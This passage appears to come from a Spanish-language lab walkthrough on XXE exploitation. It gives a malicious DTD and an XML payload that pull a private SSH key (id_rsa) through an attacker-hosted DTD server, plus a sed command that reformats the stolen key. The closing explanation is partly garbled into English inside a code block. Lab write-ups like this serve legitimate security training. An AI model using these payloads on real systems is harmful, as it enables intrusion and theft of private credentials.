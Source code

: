 En los pasos siguientes, obtendremos algunos de estos archivos.

Paso 10: Recupera las claves SSH privadas.

Modifique el archivo evil.dtd para obtener el contenido de id\_rsa archivo:

```
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "http://localhost:8888/.ssh/id_rsa">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```

Inicie un servidor HTTP basado en Python en el puerto 8080:

Mandar:

```
python3 -m http.server 8080
```

Envíe la misma carga útil XXE que enviamos en el último paso:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM "http://192.220.76.2:8080/evil.dtd">
  %dtd;
  %all;
]>
<data>&fileContents;</data>
```

La respuesta contiene las claves SSH privadas.

Guarde el contenido de las claves privadas en el archivo id\_rsa:

Mandar:

```
cat id_rsa
```

A la clave SSH privada le faltan las nuevas líneas.

Para restaurar el archivo, podemos usar el siguiente comando:

Mandar:

```
sed -e "s/-----BEGIN RSA PRIVATE KEY-----/&\n/" \
-e "s/-----END RSA PRIVATE KEY-----/\n&/" \
-e "s/\S\{64\}/&\n/g" \
id_rsa
```

La salida contiene la clave SSH privada con el formato correcto.

El comando anterior hace lo siguiente: - Agrega una nueva línea después de la función

```
-----BEGIN RSA PRIVATE KEY-----
string - Adds a new line before the
-----END RSA PRIVATE KEY-----
string - For all other string blocks, it adds a new line after every 64 characters
```
